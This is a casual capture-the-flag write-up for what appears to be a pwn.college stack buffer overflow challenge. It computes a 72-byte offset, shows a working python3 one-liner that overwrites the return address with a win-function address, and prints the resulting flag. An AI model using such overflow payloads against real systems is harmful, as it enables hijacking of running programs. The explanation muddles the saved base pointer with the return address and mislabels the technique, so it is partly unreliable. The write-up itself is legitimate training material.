








# controlhijack




same shit




standard BOF 



standard function arguments being passed with register values

so there's no win function here

so this one is what we call "ROP" where we hijack the RIP pointer to go to our respective "win" function

now this is going to require pwntools so

specifically we're going to be exploiting this



in assembly when a function ends it depends on it's rbp to return back to where it was called from, if we overwrite the rbp on the stack we can effectively guide where it wants to come back

where is rbp written on stack?



here you go, its a standard idiomatic thing to do in assembly so don't question it



simple overflow reveals where we're overflowing


alright so basically, do a basic bufferoverflow, leave a return address in place of the original ebp, good shit




starts from




```py
>>> 0x7ffe157c0a50 - 0x7ffe157c0a10
64
```

padding is 72 chars because +8 cuz saved return address is right in front of ebp, the `call` instruction generally adds this to remember how to get back to it's original position but since we're manipulating it, lets finish this up whats our win return address?


win address - 0x401371


we need pwntools to send the payload since we physically cant write those characters


but we could ALSO just not do that

```py
python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\x71\x13\x40\x00\x00\x00\x00\x00')" | ./binary-exploitation-control-hijack
```

using some of our linux knowledge we can redirect the stdin to the binary 

you also might as why its b'\x71\x13\x40\x00\x00\x00\x00\x00' reversed, its because its in little endian, thats how addresses generally are in memory because of the stack.

```bash

hacker@binary-exploitation~control-hijack-hard:/challenge$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\x71\x13\x40\x00\x00\x00\x00\x00')" | ./binary-exploitation-control-hijack
Send your payload (up to 4096 bytes)!
Goodbye!
You win! Here is your flag:
pwn.college{skElAlCxYI4R-WBQjcRfWoTCGHa.dRTOywSO2EzNwIzW}
```

